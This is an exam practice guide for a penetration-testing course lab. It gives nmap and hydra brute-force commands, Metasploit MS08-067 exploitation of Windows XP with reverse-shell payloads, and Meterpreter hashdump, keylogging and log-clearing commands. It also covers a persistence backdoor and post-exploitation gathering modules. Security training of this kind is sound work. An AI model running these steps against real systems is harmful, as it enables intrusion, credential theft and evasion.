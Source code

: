 # Practical Exam 1 Practice

>Author: Dongyi Guo
>
>Doc Version: 1.2

* During the formal test, you are only using Kali Linux, steps for setting up other machines are here for your own practice.
* Everything that is inside ```<...>``` requires you to find proper answer to fill in.

## Question 1

#### Linux Network Setup (Kali, Metasploitable2):

To assign IP  on Linux:

```bash
ip a a <IP>/<Prefix> dev <NetworkInterface>
```

To check current IP configuration, use:

```bash
ip a
```

or

```bash
ifconfig
```

and check the ```inet``` parameter of your network interface for IPv4 address. You only need to config IP Kali during you test, for Metasploitable2 , run the setup command with ```sudo``` with msfadmin.

#### Windows Network Setup:

* You don't need to do this during your formal test.

To setup network on Windows 7 and higher:

* Go to Network and Sharing Center, click on the connection.
* Then select Properties.
* Then highlight the "Internet Protocol..." with IPv4, select Properties.
* Assign IP accordingly.

For Windows XP:

* Go to Control Panel.
* Select Network Connection.
* Double-click the network.
* Select Properties.
* Then highlight "Internet Protocol [TCP/IP]", select Properties.
* Assign IP accordingly.

## Question 2

To find live hosts on current network, use ```nmap```:

```bash
nmap -sn <NetworkAddress/Prefix>
```

For port scanning:

```bash
nmap <HostAddress>
```

For OS information:

```bash
nmap -O -v <HostAddress>
```

To turn off the firewall on Windows (for your own practice) :

* Search "Windows Firewall" and select the option with exactly these 2 words.
* Click "Turn Windows Firewall on or off" on side menu.
* Turn off the firewall.

## Question 3

To brute-force a password of a given username with a specific service protocol on a remote host, use ```hydra```:

* You will need a password dictionary to power the brute-force operation.

```bash
hydra -l <LoginUsername> -P <PathToPasswordDictionary> <HostIPAddress> <ServiceProtocol> -t <ParallelAttempts>
```

To check all available service protocols, use

```bash
man hydra
```

## Question 4

Windows XP can be exploited by:

* VNC injection, returns a GUI view or control
* Meterpreter, returns a command prompt to perform miscellaneous actions on target host.

For VNC injection, while in Metasploitable Framework prompt ( ```msf6>``` ): 

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set LHOST <KaliIPAddress>
set RHOST <XPIPAddress>
set ViewOnly false
exploit
```

For Meterpreter:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set LHOST <KaliIPAddress>
set RHOST <XPIPAddress>
exploit
```

During Meterpreter session ( ```meterpreter>``` ), commands that could be useful:

```bash
cd <DirectoryPath> # Change directory
ls # List directory
pwd # Current directory
sysinfo # System information
ipconfig # Network information
screenshot # Take a screenshot from target host
hasdump # Dump all user's hashes on the screen
search -f <filename> # Search file based on name in current directory
download <RemotePath> <LocalPath> # Remote download file from target host to local
# Remember the path for download command has to be Unix type, for Windows '\',
# Either double it '\\' or change back to '/'.

clearev # Clean event logs

getpid # Get current process ID
ps # List current Processes on target host
migrate <processID> # Migrate to process ID
# Keylogger only works when Meterpreter is paratisitizing a process with relative high privilege:
keyscan_start # Start key logging
keyscan_dump # Dump key logging
keyscan_stop # Stop key logging

# Backgroud current session
background
# Or
bg
# Or ctrl + z
```

To add backdoor on the Meterpreter session, background the session, then in MSF prompt:

```bash
use exploit/windows/local/persistence
set LHOST <KaliIPAddress>
set LPORT 445
set STARTUP SYSTEM # DO NOT lowercase SYSTEM, as it is parameter value
sessions # Get the meterpreter session's ID
set session <MeterpreterSessionID> 
exploit
```

Then, use multi/handler to listen the incoming connection:

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <KaliIPAddress>
set LPORT 445
run # alias of exploit, use any
```

After that, if XP gets rebooted, it will send back the connection and Kali will enter Meterpreter prompt automatically.

## MSF Essentials

During MSF prompts, several things:

```bash
search <Keyword> # Search exploits via keyword
show options # Give current configurable parameters for current exploit and payload
show paylaods # Show possible payloads for current exploit
show targets # Show possible targets for current exploit
```

* Use ```setg``` instead of ```set``` to preserve parameter values across different exploits with the same parameter name.
* The parameter names are case-insensitive, but if the parameter values are given accepted value (Accepted: ...), you must match the case:

```bash
set sTArTuP SYSTEM # That is okay
set STARTUP system # NOT OKAY
```

## Post-Exploitation Information Gathering

* This means gathering information after you retrieve administrative priviledge on a target.

If you have a reverse shell session and you want to upgrade it to Meterpreter session: use:

```bash
sessions # Check the session ID of your reverse shell session
sessions -u <ReverseShellSessionID>
```

If you have a unprivileged Meterpreter session, to find exploit escalating your privilege, use:

```bash
sessions # Check the session ID of your unprivileged session
use post/multi/recon/local_exploit_suggester
set session <UnprivilegedMeterpreterSessionID>
run
```

to find possible vulnerabilities can be used to escalate your priviledge.

Once you have the administrative privilege, to find all modules that are helpful for information gathering, use:

```bash
# For Linux
search post/linux/gather
# For Windows
search post/windows/gather
```

Common useful modules to gather information about your target:

```bash
use post/<linux/windows>/gather/checkvm # Identify whether a target is virtual machine, and if so what virtualisation it is
use post/linux/gather/checkcontainer # Identify whether a target is a containerized, and if so what type of container it is
use post/linux/gather/hashdump # Dump user's hashes on screen
use post/windows/gather/smart_hashdump # Dump user's hashes on screen and save them into /root/.msf4/loot/
use post/linux/gather/enum_protections # List target's security protection measurements
use post/linux/gather/enum_configs # List target's service configurations and save them into /root/.msf4/loot/
use post/linux/gather/enum_network # List target's network infrastructure information and configurations and save them into /root/.msf4/loot/
use post/linux/gather/enum_system # List target's system information and save them into /root/.msf4/loot/
```

Then set the Meterpreter session and run to gather the information:

```bash
set session <MeterpreterSessionID>
run
```

